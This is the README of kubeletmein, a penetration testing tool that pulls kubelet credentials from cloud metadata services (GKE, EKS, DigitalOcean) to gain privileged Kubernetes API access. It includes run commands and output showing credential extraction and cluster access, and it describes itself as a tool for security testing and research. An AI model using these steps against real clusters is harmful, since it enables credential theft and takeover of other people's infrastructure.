 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

EKS support added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This is a one step process and doesn't create a fake node, but rather impersonates the node on which the pod is running.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.11.0 and upwards means kubeletmein uses a single stage process for all providers. Therefore just takes a single argument for the provider and, depending on the provider (i.e. not EKS) a node-name will be required to generate the certificate for.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein eks
2021-03-02T21:37:59Z [ℹ]  generating kubeconfig for current EKS node
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  to use the kubeconfig, download aws-iam-authenticator to the current directory and make it executable by following the instructions at https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### Digital Ocean

```
~ $ kubeletmein do -n whatevs
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

AWS - (https://registry.terraform.io/providers/hashicorp/aws/latest/docs)[https://registry.terraform.io/providers/hashicorp/aws/latest/docs]
GCP - (https://registry.terraform.io/providers/hashicorp/google/latest/docs)[https://registry.terraform.io/providers/hashicorp/google/latest/docs]
Digital Ocean - (https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)[https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs]

** NOTE - ONLY GKE IS CURRENTLY RELEASED, OTHERS ARE COMING VERY SOON **

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.

